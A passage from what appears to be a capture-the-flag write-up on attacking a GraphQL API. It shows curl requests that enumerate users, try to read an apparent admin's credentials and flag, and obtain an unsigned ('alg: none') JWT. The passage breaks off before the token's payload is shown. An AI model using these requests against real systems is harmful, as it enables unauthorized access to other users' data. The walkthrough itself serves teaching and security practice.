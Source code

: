 But inorder to access these fields we needed userid and username of all the users, provided in the listUsers query:

`
{"data":{"listUsers":[{"id":"X9L7A2Q","username":"john.d"},{"id":"M3ZT8WR","username":"bob.marley"},{"id":"T7J9C6Y","username":"charlie.c"},{"id":"R2W8K5Z","username":"r00tus3r"}]}}
`

Now a very interesting thing that uncovered itself here is the username `r00tus3r` which indicated that the user had escalated privileges and might be the administrator.Thus, I tried accessing this root user's details:

`
curl -X POST http://15.206.47.5:9090/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ userDetail(id:\"R2W8K5Z\") { first_name last_name email phone bio role notes credentials flag profile address { city region country } } }"}'
`

This gave a rather interesting output:

`
{"data":{"userDetail":null},"errors":[{"locations":[{"column":3,"line":1}],"message":"You're not authorized","path":["userDetail"]}]}
`

Thus it was clear that the GraphQL server was protecting userDetail query. It implied that I would have to generateToken to authorize my query inorder to retrieve data.
Thus I tried to retrieve the token from generateToken:

`
curl -X POST http://15.206.47.5:9090/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ generateToken }"}'
`

This returned the output as:

`
{"data":{"generateToken":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6Ilg5TDdBMlEiLCJ1c2VybmFtZSI6ImpvaG4uZCJ9."}}
`

It was clear on looking at this JWT token that it was `base 64` encoded concatenated by `.` thus when I decoded the token header and payload I found something rather interesting.

The Header was standard:

`
{
  "alg": "none",
  "typ": "JWT"
}
`

However the Payload was special:
